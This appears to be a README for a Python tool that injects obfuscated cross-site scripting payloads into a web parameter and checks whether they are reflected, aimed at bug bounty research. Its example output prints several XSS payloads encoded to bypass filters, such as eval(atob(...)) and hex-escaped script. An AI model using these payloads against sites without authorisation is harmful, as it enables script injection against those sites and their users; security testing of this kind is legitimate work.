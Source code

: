 # bug-bounty-xss-injector

This Python-based tool is designed for security researchers and bug bounty hunters to identify cross-site scripting (XSS) vulnerabilities in web applications. This script automates the process of injecting various obfuscated XSS payloads into a target web application and analyzes whether the payloads are reflected in the server response, indicating a possible XSS vulnerability.

**Automated XSS Testing** - The script automatically injects payloads into a specified parameter to test for XSS vulnerabilities. 

**Obfuscation Techniques** – Uses Base64, Hex, and URL encoding to bypass basic security filters.

**Reflection Detection** – Checks if the injected payload appears in the server's response, a key indicator of reflected XSS.

**Customizable Input** – Allows the user to specify the target URL, request method (GET/POST), and parameter name.

**Logging** – Saves test results, including detected reflections, into a log file for further analysis.

**Bug Bounty Friendly** – Includes an HTTP header field (BugBounty-Researcher) to identify the researcher when testing within responsible disclosure programs.

## Example Usage
```
Enter target URL: https://<your_targeted_web_application>
Enter your bug bounty email: <researcher_handle>@<your_bugbounty_researcher_email.com
Enter request method (GET/POST): GET
Enter parameter name (e.g., 'q', 'input'): q
```
## Example Output
```
[+] Payload reflected: <script>eval(atob('Jmx0O3NjcmlwdCZndDthbGVydCgnaW5qZWN0ZWQnKTsmbHQ7L3NjcmlwdCZndDs='));</script>
Response snippet:
<!DOCTYPE html>
<html
lang="en"
dir="ltr"
data-action="Search-Show"
data-querystring="q=%3Cscript%3Eeval(atob(&amp;#x27;Jmx0O3NjcmlwdCZndDthbGVydCgnaW5qZWN0ZWQnKTsmbHQ7L3NjcmlwdCZndDs%3D&amp;#x27;))%3B%3C%2Fscript%3E"   
data-siteid="THIS_HAS_BEEN_LEFT_OUT_FOR_CONFIDENTIAL_REASONS"
data-locale="en_US"
>
<head>
<meta charset="UTF-8"/>
----------------------------------------
[-] Payload not reflected: <script>eval('\x3c\x73\x63\x72\x3c\x73\x63\x72\x69\x70\x74\x3e\x69\x70\x74\x3e\x61\x6c\x65\x72\x74\x28\x27\x69\x6e\x6a\x65\x63\x74\x65\x64\x27\x29\x3b\x3c\x2f\x73\x63\x72\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e\x69\x70\x74\x3e');</script>
----------------------------------------
[+] Payload reflected: <script>window.location=decodeURIComponent('alert%28%27injected%27%29%3B');</script>
Response snippet:
<!DOCTYPE html>
<html
lang="en"
dir="ltr"
data-action="Search-Show"  
data-querystring="q=%3Cscript%3Ewindow.location%3DdecodeURIComponent(&amp;#x27;alert%2528%2527injected%2527%2529%253B&amp;#x27;)%3B%3C%2Fscript%3E"
data-siteid="THIS_HAS_BEEN_LEFT_OUT_FOR_CONFIDENTIAL_REASONS"
data-locale="en_US"
>
<head>
<meta charset="UTF-8"/>
```

## This tool is intended only for ethical hacking and responsible bug bounty research.  Do not use this tool on systems you do not own or have permission to test.
